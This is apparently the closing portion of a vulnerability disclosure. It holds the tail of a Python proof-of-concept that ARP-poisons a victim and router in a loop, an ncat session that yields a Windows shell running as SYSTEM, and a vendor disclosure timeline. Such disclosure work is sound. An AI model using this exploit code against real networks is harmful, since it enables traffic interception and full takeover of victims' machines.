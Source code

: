 ```python
        os.system(cmd)

if __name__ == '__main__':
    _server_port = sys.argv[3]
    _victim_ip = sys.argv[1]
    _router_ip = sys.argv[2]
    _router_mac = get_mac(_router_ip)
    _victim_mac = get_mac(_victim_ip)

    create_env(port=_server_port)
    def signal_handler(signal, frame):
        print("Restoring ARP Cache...")
        arp_restore(_victim_ip, _router_ip, _victim_mac, _router_mac)
        os._exit(0)

    signal.signal(signal.SIGINT, signal_handler)
    if sys.argv[4] == "start":
        while 1:
            arp_poison(_victim_ip, _router_ip, _victim_mac, _router_mac)
            time.sleep(1.5)
```



```sh
#~ ncat 192.168.56.101 4141
Microsoft Windows [Version 10.0.16299.1268]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### **Timeline**

|Date|Status|
|:---|:---|
|20-JUN-2019|Reported to vendor|
|20-JUN-2019|Vendor acknowledgement|
|20-JAN-2020|Patch released|
|16-APR-2020|Public disclosure|